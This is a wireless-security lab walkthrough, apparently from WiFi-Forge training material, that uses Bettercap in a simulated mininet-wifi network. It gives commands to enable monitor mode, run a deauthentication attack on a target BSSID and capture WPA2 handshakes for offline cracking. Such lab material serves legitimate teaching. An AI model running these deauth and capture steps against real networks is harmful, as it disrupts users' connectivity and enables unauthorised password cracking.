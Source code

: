 # OPTIONAL WiFi-Forge Lab

!!! warning
    WiFi-Forge is under **active development** (AKA - this Lab may have issues) by the good folks at Black Hills Information Security. They are seeking feedback on the tool and welcome the submission of any issues on the [main GitHub page](https://github.com/blackhillsinfosec/Wifi-Forge/issues).

    A forked version can be found at [https://github.com/ridgebackinfosec/Wifi-Forge](https://github.com/ridgebackinfosec/Wifi-Forge) which should work with this Lab.

!!! note
    This and many more WiFi-Forge Labs are available at [https://wififorge.github.io/](https://wififorge.github.io/). 
    
    Follow the install steps from the slides or [here](https://wififorge.github.io/Installation/Installation) before working on this Lab.

In this lab, we will familiarize ourselves with Bettercap, a common wireless auditing tool.

## Getting Started with Bettercap

Select **Bettercap Recon** from the menu. Allow up to 30 seconds to initialize the network.

![Bettercap Recon](img/main-menu.png)

!!! note
    Normally, when using Bettercap with physical network cards, it is necessary to use `airmon-ng check kill` to terminate processes that may interfere. However, running this command in the mininet-wifi network is unnecessary and may cause failures.

Start by putting the interface `a-wlan0` in monitor mode:

```bash
airmon-ng start a-wlan0
```

If prompted, input **y** and hit enter.

![Prompt](img/prompts.png)

Successful initialization will appear as shown below:

![Initialization Success](img/init-success.png)

Verify that the interface has been put into monitor mode:

```bash
ifconfig | grep flags
```

The interface `a-wlan0mon` should now be present:

![Monitor Mode Active](img/monitor-mode.png)

## Launching Bettercap

Run the following command to start Bettercap with the interface in monitor mode:

```bash
bettercap -iface a-wlan0mon
```

You will be greeted by a prompt displaying the network interface name:

![Bettercap Interface](img/interface.png)

The following commands configure the console for a more understandable workflow to view the de-authentication attack:

```bash
set wifi.show.sort clients desc
set ticker.commands 'clear; wifi.show'
ticker on
set wifi.show.sort clients desc
```

After running these commands, you should see the following on your screen:

![Bettercap Console](img/console.png)

Disable console logging using:

```bash
events.stream off
```

## Capturing Handshakes

Set the handshakes file and enable the `wifi.recon` module:

```bash
set wifi.handshakes.file ./loot/4whs
wifi.recon on
```

Force the interface to operate only on channel 6:

```bash
wifi.recon.channel 6
```

Start the de-authentication attack:

```bash
wifi.deauth 76:df:71:67:40:2b
```

It may take a few seconds, but Bettercap will catch the handshake:

![Handshake Captured](img/handshake.png)

A handshake is an encrypted WPA2 password intercepted between the client and router, which can be decrypted offline.

Your final packet count may differ from the screenshot.